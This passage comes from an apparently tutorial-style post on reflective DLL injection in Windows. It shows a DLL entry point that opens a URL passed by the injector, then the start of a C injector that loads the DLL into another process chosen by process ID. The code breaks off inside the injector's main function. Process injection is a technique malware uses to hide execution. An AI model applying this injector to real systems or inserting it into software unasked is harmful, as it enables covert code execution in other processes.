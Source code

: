 ```c
	case DLL_PROCESS_ATTACH:
		hAppInstance = hinstDLL;	
		
		Url=  (char*)lpReserved; // The url passed in parameter by our injector, make sure the url starts with http/https
		ShellExecute(0, 0, Url, 0, 0, SW_SHOW); // open the url
		out << "Opened URL : " << Url << std::endl;
		Send(out.str().c_str());
		break;
	case DLL_PROCESS_DETACH:
	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
		break;
	}
	return bReturnValue;
}
```
The above dll is pretty simple, It reads in the url from parameters, Opens the url using ShellExecute and sends output to the injector that the url Url was opened.

But a Reflective DLL is nothing without the injector. So let’s make a complete injector for this.
```c
#define WIN32_LEAN_AND_MEAN
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include "Output.h"
#include "LoadLibraryR.h"
#include <iostream>

#pragma comment(lib,"Advapi32.lib")

#define BREAK_WITH_ERROR( e ) { printf( "[-] %s. Error=%d", e, GetLastError() ); break; }

// Simple app to inject a reflective DLL into a process vis its process ID.
int main( int argc, char * argv[] )
{
	HANDLE hFile          = NULL;
	HANDLE hModule        = NULL;
	HANDLE hProcess       = NULL;
	HANDLE hToken         = NULL;
	LPVOID lpBuffer       = NULL;
	DWORD dwLength        = 0;
	DWORD dwBytesRead     = 0;
	DWORD dwProcessId     = 0;
	TOKEN_PRIVILEGES priv = {0};
	LPVOID lpRemoteCommandLine = NULL;
	char* cpCommandLine = "https://quantumcored.com";

#ifdef WIN_X64
	char * cpDllFile  = "reflective_dll.x64.dll";
#else
#ifdef WIN_X86
	char * cpDllFile  = "reflective_dll.dll";
#else WIN_ARM
	char * cpDllFile  = "reflective_dll.arm.dll";
#endif
#endif

	do
	{
		// Usage: inject.exe [pid] [dll_file]
		BOOL readOutput;
		std::string input;
```